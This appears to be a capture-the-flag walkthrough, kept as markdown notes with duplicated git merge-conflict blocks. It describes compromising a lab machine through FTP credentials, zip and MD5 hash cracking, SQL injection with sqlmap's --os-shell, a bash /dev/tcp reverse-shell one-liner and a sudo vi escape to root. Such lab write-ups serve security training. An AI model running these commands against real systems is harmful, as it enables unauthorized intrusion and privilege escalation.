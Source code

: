 <<<<<<< HEAD
- 10.10.10.46
 
- nmap scan for open ports:
	- 21: ftp
		- vsftpd 3.0.3
	- 22: ssh
		- openSSH 8.0p1
	- 80: http
		- Apache httpd 2.4.41

- ftp:
	- connect with given creds:
		- `ftpuser:mc@F1l3ZilL4`
	- → received .zip file protected with password
		- crack with john:
		```
		zip2john <.zip_file> > <output.hashes>
		john <output.hashes> -w <wordlist>
		```
		- get password `backup.zip:741852963`
		- and files `style.css, index.php`
			- in index.php there is password hash (MD5) → `2cb42f8734ea607eefed3b70af13bbd3:qwerty789`

- webpage
	- login page - try creds from previous box
		- → no go
	- login page - try creds from `index.php`
		- `admin:qwerty789`
	- →we get to page with search
		- vulnerable to SQL injection
		- run sqlmap on it:	`sqlmap -u='<URL>' --cookie="<COOKIE_inc_the_name>"`
		- get shell - run previous command with `--os-shell`


- foothold
	- gotten with sqlmap
	- run `bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'` for reverse shell

- privilege escalation
	- do research in `/var/www/`
	- in `dashboard.php` are creds
		- `postgres:P@s5w0rd!`
	- `sudo -l`
		- you can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf` as sudo
=======
- 10.10.10.46
 
- nmap scan for open ports:
	- 21: ftp
		- vsftpd 3.0.3
	- 22: ssh
		- openSSH 8.0p1
	- 80: http
		- Apache httpd 2.4.41

- ftp:
	- connect with given creds:
		- `ftpuser:mc@F1l3ZilL4`
	- → received .zip file protected with password
		- crack with john:
		```
		zip2john <.zip_file> > <output.hashes>
		john <output.hashes> -w <wordlist>
		```
		- get password `backup.zip:741852963`
		- and files `style.css, index.php`
			- in index.php there is password hash (MD5) → `2cb42f8734ea607eefed3b70af13bbd3:qwerty789`

- webpage
	- login page - try creds from previous box
		- → no go
	- login page - try creds from `index.php`
		- `admin:qwerty789`
	- →we get to page with search
		- vulnerable to SQL injection
		- run sqlmap on it:	`sqlmap -u='<URL>' --cookie="<COOKIE_inc_the_name>"`
		- get shell - run previous command with `--os-shell`


- foothold
	- gotten with sqlmap
	- run `bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'` for reverse shell

- privilege escalation
	- do research in `/var/www/`
	- in `dashboard.php` are creds
		- `postgres:P@s5w0rd!`
	- `sudo -l`
		- you can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf` as sudo
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
			- from vi run `:!/bin/bash` → root → flag